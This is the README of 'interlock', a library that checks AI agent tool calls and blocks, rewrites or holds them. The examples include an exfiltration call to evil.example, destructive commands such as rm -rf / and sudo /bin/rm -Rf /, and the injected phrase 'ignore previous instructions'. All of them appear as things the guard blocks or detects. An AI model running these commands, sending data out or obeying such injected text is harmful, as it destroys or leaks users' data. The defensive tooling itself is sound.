


# interlock

[](https://github.com/SourceShift/InterLock/actions/workflows/ci.yml)
[](https://github.com/SourceShift/InterLock/actions/workflows/codeql.yml)


[](LICENSE)

**Stop a bad tool call before your AI agent makes it.**

interlock checks every tool call your agent makes, inside the agent's own
process, and allows, blocks, or rewrites it before anything happens. No proxy,
no account, no network calls, and no dependencies.



```python
import interlock
from interlock import Blocked, guard
from interlock.detectors import network_egress_guard, pii_redaction_guard


@guard()
def http_post(url: str, body: str) -> str:
    return f"posted to {url}: {body}"


interlock.install(rules=[
    network_egress_guard(allowed_hosts=["api.acme.com"]),   # only talk to hosts you trust
    pii_redaction_guard(),                                  # mask secrets and personal data
])

http_post("https://api.acme.com/notes", "Card on file: 4111 1111 1111 1111")
# -> "posted to https://api.acme.com/notes: Card on file: [REDACTED CREDIT_CARD]"

http_post("https://evil.example/collect", "the whole customer table")
# -> raises Blocked: blocked action 'http_post': egress to 'evil.example' is not on the destination allowlist
```

The first call went through with the card number masked. The second never ran.

### See it run

[`examples/quickstart_demo.py`](examples/quickstart_demo.py) shows every verdict
in one go — allow, rewrite, block, and a check of what a tool returned:

```console
$ python examples/quickstart_demo.py
allow    -> posted to https://api.acme.com/notes: routine sync
rewrite  -> posted to https://api.acme.com/notes: Card on file: [REDACTED CREDIT_CARD]
block    -> Blocked: blocked action 'http_post': egress to 'evil.example' is not on the destination allowlist
check    -> Blocked: blocked action 'fetch_page': tool_result_injection: ignore previous instructions
```

The third call never leaves the process. The fourth is a page that tried to
smuggle an instruction in through its own text — it never reaches the agent.

## Why interlock

Agents make mistakes, and some get tricked. Sooner or later one will run
`rm -rf`, send data to a host you've never heard of, or follow instructions it
found in a web page. Most guardrails watch what the model *says*. interlock
watches what it *does*, at the last moment you can still say no.

- **Four verdicts, not two.** A call can be allowed, blocked, **rewritten**
  (mask a secret, cap an amount, force a dry run), or **held for a human** who
  approves that exact call, so safety doesn't always cost you the task.
- **Checks results too.** Injected instructions arrive in tool output: a web
  page, an email, a document. interlock checks what tools return before your
  agent reads it.
- **One policy everywhere.** The same rules guard decorated functions, MCP
  sessions, LangChain tools, your own tool loop, Node.js agents, and coding
  agents: **Claude Code, Codex and Cursor**, through their hooks.
- **121 ready-made detectors** for prompt injection, SQL and shell injection,
  secret and PII redaction, SSRF, egress, MCP server trust, budgets, and loops.
  Shell rules judge **what a command does**, not its spelling: `rm -fr ~`,
  `bash -c 'rm -rf /'` and `sudo /bin/rm -Rf /` are the same act.
- **Built for real deployments:** per-tenant policies with safe delegation to
  sub-agents, declarative policy files with locked rules and trust-gated
  project overlays, a tamper-evident audit log you can report on, an OS sandbox
  for the subprocesses your agent launches, and `interlock doctor` to prove
  protection is actually on.
- **Nothing to sign up for.** Pure Python, no runtime dependencies, works
  offline.



## Install

```bash
pip install "git+https://github.com/SourceShift/InterLock.git"

# with LangChain support
pip install "interlock-guard[langchain] @ git+https://github.com/SourceShift/InterLock.git"
```

Python 3.9 or newer. interlock isn't on PyPI yet, so install it from GitHub, and
pin a commit for production.

## Quickstart

**1. Guard your tools.** Put `@guard()` on the functions your agent calls:

```python
from interlock import guard

@guard()
def run_shell(cmd: str) -> str: ...

@guard()
def query_db(sql: str, limit: int = 1000) -> str: ...
```

**2. Install rules.** A rule takes a call and blocks it, rewrites it, or returns
`None` for "no opinion":

```python
import interlock
from interlock import Decision, deny_when

def cap_rows(event):
    if event.action == "query_db" and event.args.get("limit", 0) > 100:
        return Decision.modify({"limit": 100}, reason="row limit capped")
    return None

interlock.install(rules=[
    deny_when(lambda e: "rm -rf" in str(e.args.get("cmd", "")), reason="destructive command"),
    cap_rows,
])

run_shell("rm -rf /")              # raises Blocked; the command never runs
query_db("SELECT * FROM orders")   # runs with limit=100
```

**3. Try new rules safely.** Swap `@guard()` for `@monitor()` and decisions are
logged but never enforced, so you can see what a rule *would* do to real traffic
first.

The [getting started tutorial](docs/getting-started.md) walks through all of this
with real output, plus detectors, result checks, and the tool-name pitfall that
catches most people.

## The console

A local web app for the person running the agent: what the guard decided, the
calls waiting on a human, the policy behind it all, and whether protection is
actually on. It binds to `127.0.0.1` only and loads nothing from any other
origin. Its Activity page is the screenshot at the top of this file.

**You'll need** Python 3.9+, and Node.js 20.19+ or 22.12+ to build the web app
once.

**1. Get the code and build the web app.** The app isn't in the pip package, so
work from a checkout:

```bash
git clone https://github.com/SourceShift/InterLock.git
cd InterLock
pip install -e .
npm --prefix web ci
npm --prefix web run build      # writes web/dist/, fonts included
```

**2. Have something to look at.** The console reads the files your guard
writes. If your agent is a coding agent, install the hook and use it for a
while:

```bash
interlock install-hook --for claude-code   # or codex, cursor, all
```

That creates `~/.interlock/` with the policy, the receipt log and its key, and
the review queue. To try the console without an agent, generate real traffic
instead — genuine hook payloads piped through `interlock hook` into a scratch
directory:

```bash
python3 scripts/console_traffic.py /tmp/il-demo
```

**3. Start it.**

```bash
python -m interlock.console \
  --receipts ~/.interlock/receipts.jsonl --key-file ~/.interlock/receipts.key
# for the demo data:
#   --receipts /tmp/il-demo/receipts.jsonl --key-file /tmp/il-demo/receipts.key \
#   --policy /tmp/il-demo/policy.json --reviews-db /tmp/il-demo/reviews.db
```

It prints where it's listening, and an unlock link:

```
interlock console listening on http://127.0.0.1:7878
unlock writes: http://127.0.0.1:7878/#/unlock/k7Qm-2fXa-9RtL
```

Open the first URL. The console starts **read-only**; approving a review or
saving the policy needs the tab unlocked with the second link. That link only
ever appears in this terminal, so an agent on the same machine can't unlock
writes for itself. Restarting the console re-locks every tab.

Flags, the eight screens, development with the Vite dev server, and the
security model are in the [console guide](docs/guides/console.md). Installed
somewhere other than a checkout? Pass `--static /path/to/web/dist`.

## What's in the box

| Feature | What it does | Guide |
|---|---|---|
| Rules | Python functions that block, rewrite, or check results | [Writing rules](docs/guides/writing-rules.md) |
| Declarative policies | The same rules as JSON/YAML: typo-checked at load, locked rules, hot reload, trust-gated project overlays | [Policies](docs/guides/policies.md) |
| Approvals | `ESCALATE`: hold a call for a human; approvals are one-use and bound to the exact call | [Approvals](docs/guides/approvals.md) |
| Coding agents | Guard Claude Code, Codex and Cursor tool calls with one command | [Coding agents](docs/guides/coding-agents.md) |
| Credentials | The agent writes `{{secret:id}}`; the value is filled in after the decision, only where allowed | [Credentials](docs/guides/credentials.md) |
| Databases and APIs | SQL judged by its effects and tables (`WITH … DELETE` is a delete), checksum-validated data masking on results, runbooks, HTTP path and method rules | [Databases](docs/guides/databases.md) |
| Review queue | Refuse now with a review id; the identical retry runs once after a human approves; quorum and expiry | [Reviews](docs/guides/reviews.md) |
| Detectors | 121 ready-made rules, grouped by attack | [Using detectors](docs/guides/detectors.md) · [catalog](docs/reference/detectors.md) |
| MCP trust | Allowlist servers, pin tool schemas, catch changed tool listings, time-limited grants | [MCP](docs/guides/mcp.md) |
| Scopes | Per-tenant and per-agent policies; sub-agents can't exceed their parent | [Scopes](docs/guides/scopes.md) |
| Audit log | Chained, signed receipts of every decision; arguments hashed, not stored; `interlock report` summarizes them | [Audit log](docs/guides/audit-log.md) |
| Doctor and metrics | `attest()` / `require()` in-process, `interlock doctor` from a shell, Prometheus metrics and a loopback admin endpoint | [Production checklist](docs/guides/production.md) |
| BRACE sandbox | Runs subprocesses under bubblewrap (Linux) or Seatbelt (macOS), built from your policy | [Sandbox](docs/guides/sandbox.md) |
| Node.js client | Guards JS agents with the same Python policy through a local daemon | [js/README.md](js/README.md) |
| Console | A local web app: activity, the review queue, the audit log, the policy editor, a detector playground, and ops; writes need a terminal-only unlock | [Console](docs/guides/console.md) |
| Mesh | Subscribe to community policy packs (`"extends": "mesh:coding-agent@stable"`), verified from a pinned root with signed, expiring metadata; new rules run in shadow mode first and a ring caps their verdict. Or publish a commons yourself | [Mesh](docs/guides/mesh.md) |

## Works with

| You have | Use |
|---|---|
| Your own Python functions | `@guard()` |
| An MCP client session | `guard_mcp_session(session)` |
| LangChain tools | `guard_langchain_tools(tools)` |
| An OpenAI, Anthropic, or other tool loop | `enforce_tool_call` / `enforce_tool_result` |
| A Node.js agent | the `interlock-guard` npm package + `interlock-sidecar` |
| Claude Code, Codex or Cursor | `interlock install-hook --for claude-code` (or `codex`, `cursor`, `all`) |

Each one is covered in [integrations](docs/guides/integrations.md); coding agents
in [their own guide](docs/guides/coding-agents.md).

## How is this different?

| Kind of tool | Examples | What it checks | How interlock relates |
|---|---|---|---|
| Content guardrails | NeMo Guardrails, Guardrails AI, LlamaFirewall | Prompts and model responses, often with ML classifiers or extra LLM calls | interlock checks *actions* (tool calls and their results) with plain rules. Use both: a classifier for content, interlock for what the agent does |
| Agent trace rules | Invariant Guardrails | Patterns across an agent's trace, as a library or a gateway, in its own rule language | interlock rules are plain Python, run in-process with no dependencies, and can rewrite a call as well as block it |
| MCP gateways | Lasso MCP Gateway | MCP traffic, from a proxy between client and servers | interlock sees calls of any kind inside your process, MCP or not, with the real arguments |
| Sandboxes | sandbox-runtime, E2B, Leash | What a process can reach at the OS or VM level | Sandboxes don't know what a tool call means. interlock checks the call, and its BRACE sandbox confines what it can't see, from the same policy |

## Know the limits

interlock is a strong layer, not a complete defence. The ones that matter most:

- **No rules means everything is allowed.** Call `interlock.posture.require()`
  at startup to fail if protection isn't on.
- **Blocking a result doesn't undo the tool.** Results are checked after the
  tool ran; a block keeps the output from your agent, but side effects stand.
- **Detectors match patterns, not meaning.** A reworded attack can get past
  them. Allowlists don't have this weakness.
- **It trusts your agent's code, not its decisions.** Malicious code in the same
  process can bypass it. Run untrusted code in the sandbox.
- **Many detectors only look at certain tool names.** Check the catalog's
  "Scoped to" column.

The [security model](docs/security-model.md) has the full list, including the
settings that weaken protection.

## Documentation

Start with [getting started](docs/getting-started.md), then
[concepts](docs/concepts.md). Everything else is indexed on the
[docs home page](docs/index.md): guides for each task, the
[Python API](docs/reference/python-api.md), the
[detector catalog](docs/reference/detectors.md), and the
[sidecar reference](docs/reference/sidecar.md).

## Status

**Alpha (v0.0.1).** The core API is stable and covered by over 2,700 tests. Not
yet on PyPI or npm. Next on the [roadmap](ROADMAP.md): a committed benign corpus
and published false-positive numbers (`interlock mesh harness` measures them
today), rules over data flow between tools, automatic interception of MCP
clients and model SDKs, and signed PyPI/npm releases.

## Contributing

Bug reports, detectors, and docs fixes are welcome. See
[CONTRIBUTING.md](CONTRIBUTING.md) for setup, conventions, and how to add a
detector. This project follows the
[Contributor Covenant](CODE_OF_CONDUCT.md); by taking part you agree to it.

Found a way *past* interlock rather than a bug in it? Report it privately — see
[SECURITY.md](SECURITY.md).

Release history is in [CHANGELOG.md](CHANGELOG.md).

## License

The code and the policy packs are Apache-2.0. See [LICENSE](LICENSE).

The data the mesh commons shares (indicators, fingerprints and redacted
samples) is CC0-1.0. See [LICENSE-DATA](LICENSE-DATA).
